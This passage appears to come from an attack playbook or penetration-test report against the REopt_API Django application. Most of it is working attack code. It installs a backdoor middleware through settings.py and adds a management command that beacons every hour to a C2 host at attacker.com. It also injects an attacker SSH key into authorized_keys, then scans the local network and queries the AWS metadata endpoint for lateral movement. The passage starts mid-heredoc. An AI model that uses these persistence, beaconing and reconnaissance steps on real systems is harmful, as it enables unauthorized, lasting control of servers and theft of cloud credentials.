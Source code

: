 ```bash
        return self.get_response(request)
EOF

# Add to settings.py
echo "MIDDLEWARE.append('reopt_api.middleware.BackdoorMiddleware')" >> reopt_api/settings.py
```

**Method 3: Scheduled Task for Beacon**

```python
# Add to Django management command
# reopt_api/management/commands/maintenance.py

from django.core.management.base import BaseCommand
import requests
import time

class Command(BaseCommand):
    def handle(self, *args, **kwargs):
        while True:
            # Beacon to C2 server
            try:
                requests.get('http://attacker.com/beacon?host=reopt_victim')
            except:
                pass
            time.sleep(3600)  # Every hour
```

**Method 4: SSH Key Injection (if file system access)**

```bash
# Add attacker's SSH key
mkdir -p ~/.ssh
echo "ssh-rsa AAAAB3Nza... attacker@evil.com" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

---

### 6.3 Lateral Movement

**From REopt_API to other NREL systems:**

**Step 1: Enumerate Network**

```python
import subprocess

# Scan local network
subprocess.run(['nmap', '-sn', '192.168.1.0/24'])

# Check for AWS metadata (if running in cloud)
import requests
r = requests.get('http://169.254.169.254/latest/meta-data/', timeout=2)
print(r.text)
```
